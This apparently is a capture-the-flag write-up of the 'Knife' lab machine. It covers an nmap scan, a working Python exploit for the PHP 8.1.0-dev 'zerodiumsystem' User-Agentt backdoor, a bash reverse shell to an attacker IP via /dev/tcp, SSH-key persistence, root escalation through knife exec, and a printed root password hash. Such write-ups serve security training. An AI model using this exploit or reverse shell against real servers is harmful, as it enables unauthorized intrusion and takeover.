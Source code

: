 # Knife

![Untitled](./Knife/Untitled.png)

Nmap scan to discover active ports and service versions:

```python
# Nmap 7.91 scan initiated Sun May 23 00:14:49 2021 as: nmap -sV -A -o nmap.scan 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 23 00:15:18 2021 -- 1 IP address (1 host up) scanned in 29.68 seconds
```

I search for php version and i found a backdoor in that version: The name of backdoor is zerodium

[https://flast101.github.io/php-8.1.0-dev-backdoor-rce/](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/)

```python
#!/usr/bin/env python3
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't access tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Consists in pass other user agent with more T, so it returns commands for us.

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%201.png](./Knife/Untitled%201.png)

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%202.png](./Knife//Untitled%202.png)

So now we have to get a shell using the backdoor. 

```python
zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
```

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%203.png](./Knife/Untitled%203.png)

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%204.png](./Knife/Untitled%204.png)

For a better shell i put my SSH key in authorized keys.

Create a script.rb to run and the knife exec say to you type the script to run, so execute te command and get a root session.

```python
exec("/bin/bash")
```

![Knife%201a9a14bba7294b88aca837be44509242/Untitled%205.png](./Knife/Untitled%205.png)

```python
root:$6$LCKz7Uz/FuWPPJ6o$LaOquetpLJIhOzr7YwJzFPX4NdDDHokHtUz.k4S1.CY7D/ECYVfP4Q5eS43/PMtsOa5up1ThgjB3.xUZsHyHA1:18754:0:99999:7:::
```
